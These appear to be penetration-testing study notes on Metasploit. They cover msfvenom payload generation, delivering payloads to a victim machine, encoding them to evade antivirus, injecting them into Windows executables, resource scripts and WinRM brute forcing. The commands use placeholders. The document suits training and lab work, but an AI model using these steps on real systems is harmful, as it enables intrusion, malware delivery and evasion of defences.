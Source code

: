 Shellcode is code used as payload for exploitation, mostly to gain remote access to the target

**Usage:**
- `msfvenom --list payloads` List all payloads.
  - `msfvenom --list formats` List payload by format
- `-a x86` platform architecture
- `-p` Specify the payload, `LHOST=<host_ip>` `LPORT=<host_port>` 
- `-f` format output, ex: `exe` `elf` (Linux exe)
- Lastly, specify the output path for the output file `> <output_path>`

**How to transfer**:
- We can setup a simple python http server to host the payload
- Setup `multi/handler`
- Download and run the payload on the victim machine

**How to encode the payload**:
- We need to encode to avoid detection of the signature base AVs
- `msfvenom --list encoders` List encoder
  - Typically we use `x86/shikata_ga_nai` or `powershell_base64`
- EX: `msfvenom -p <payload> -e x86/shikata_ga_nai -f exe > <output_path>` Encode 1 time, (1 interations)
  - The more the encoding tine, the more change it cannot detected
  - Set interations `-i 10` or `--interations 10` ~ 10 times
- Run normally, don't need extra steps

**How to inject the payload to windows portable executeable**
- `msfvenom -p <payload> LHOST ... -e x86/shitaka_ga_nai -i 10 -f exe -x <path_to_exe_inject> > <output_path>`
  - `-k` Keep the original functions of inject exe
- Put the output file on the target system and run normally

## Automate metasploit with resource scipt

For simple script, we can write all command in linear order like:

EX: Save as `*.rc`

```
use <module>
set <Payload>
set <Host>
run
```

To run the scipt `msfconsole -r scipt.rc`

To load the resource script in `msfconsole`, run `resource <script_path>`
The other way to create script is after run command in `msfconsole`, run `makerc <output_path>` 
- It will save all previours command to script

## WinRM exploit

- We can use `winrm_auth_methods` enum authentication method
- After know the authencation method, we can use `winrm_login` to brute force the basic auth methods
- After that, we can use `winrm_cmd` to login on the system and run command 
- For meterpreter sessions, we can use `winrm_script_exec`

